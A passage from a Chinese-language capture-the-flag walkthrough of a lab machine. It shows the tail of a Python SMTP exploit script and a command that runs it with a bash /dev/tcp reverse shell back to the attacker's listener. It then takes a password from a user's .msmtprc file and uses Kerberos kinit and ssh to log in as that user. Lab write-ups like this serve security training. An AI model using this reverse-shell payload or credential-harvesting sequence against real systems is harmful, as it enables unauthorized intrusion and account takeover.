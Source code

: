 ```
    data = s.recv(1024)
    print('RECIEVED', repr(data))
    s.send(payload)
    data = s.recv(1024)
    print('RECIEVED', repr(data))
    s.send(b"QUIT\r\n")
    data = s.recv(1024)
    print('RECIEVED', repr(data))
print("Exploited Check you netcat :D")
s.close()
```

之后kali开启监听，另一个终端中执行

```
proxychains4 python3 getshell.py 10.241.251.113 25 'bash -c "exec bash -i &> /dev/tcp/10.10.14.3/8888 0>&1"'
```

![image-20210608140043698](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608140043698.png)

收到反弹shell

smtp的root

![image-20210608140304912](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608140304912.png)

之后在/home/j.nakazawa下找到.msmtprc文件，里面有账密

![image-20210608140732445](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608140732445.png)

账密j.nakazawa    sJB}RM>6Z~64_但是没法直接ssh,需要使用 kerbos 生成票证并使用该票证以用户身份登录

```
apt-get install krb5-user
```



更改/etc/hosts

![image-20210608141604262](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608141604262.png)

修改/etc/krb5.conf

![image-20210608141927462](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608141927462.png)

修改之后保存继续执行

```
kinit j.nakazawa  
输入密码
klist 
ssh j.nakazawa@10.10.10.224
```

![image-20210608142224613](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608142224613.png)
